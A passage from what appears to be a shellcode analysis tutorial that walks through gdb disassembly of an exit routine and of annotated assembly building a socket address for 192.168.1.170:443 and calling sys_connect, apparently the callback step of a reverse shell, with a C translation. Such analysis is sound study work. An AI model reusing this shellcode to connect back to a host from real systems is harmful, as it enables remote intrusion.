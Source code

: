 <p>In this case, if the value is signed, the instruction <code>js 0x4000ca</code> jumps to the address <code>0x4000ca</code>, which contains the following instructions:</p><pre><code class="language-bash">(gdb) x/5i 0x4000ca
  #  0x4000ca:    push   0x3c
  #  0x4000cc:    pop    rax
  #  0x4000cd:    push   0x1
  #  0x4000cf:    pop    rdi
  #  0x4000d0:    syscall
</code></pre><p>It's simply a call to the syscall <strong>0x3c </strong>(<code>sys_exit</code>), which returns the exit code 1 (stored inside the register <code>RDI</code>).</p><p>Let's analyze the other instructions following the <code>test</code>:</p><pre><code class="language-nasm">; save the file descriptor of the socket created previously into RDI
xchg   rdi,rax

; 0xaa -&gt; 170
; 0x01 -&gt; 1
; 0xa8 -&gt; 168
; 0xc0 -&gt; 192
; 0x01bb -&gt; 443
; 0x0002 -&gt; AF_INET
movabs rcx,0xaa01a8c0bb010002

; save the pointer to the previous data into RSI
push   rcx
mov    rsi,rsp

; set RDX to 16
push   0x10
pop    rdx

; set RAX to the calue 0x2a (syscall sys_connect)
push   0x2a
pop    rax

; invoke sys_connect
syscall
</code></pre><p>They can be converted to the following C code:</p><pre><code class="language-cpp">struct sockaddr_in RSI;

myaddr.sin_family = AF_INET;
myaddr.sin_port = htons(443);
inet_aton("192.168.1.170", &amp;myaddr.sin_addr.s_addr);

connect(RDI, (struct sockaddr*)RSI, 16);
</code></pre><p>It simply creates a <strong>sockaddr</strong> structure that stores the IP address and the TCP port, along with address family (<code>AF_INET</code>, i.e. IPv4), and then it is passed to the function <code>connect</code>.</p><p>The latter connects the file descriptor obtained from the <code>socket</code> syscall to the remote socket <code>192.168.1.170:443</code>.</p><p>After the call to <code>sys_connect</code>, the following instructions are run:</p><pre><code class="language-bash">(gdb) x/13i $rip
# =&gt; 0x4000a7:    pop    rcx
#    0x4000a8:    test   rax,rax
#    0x4000ab:    jns    0x4000d2
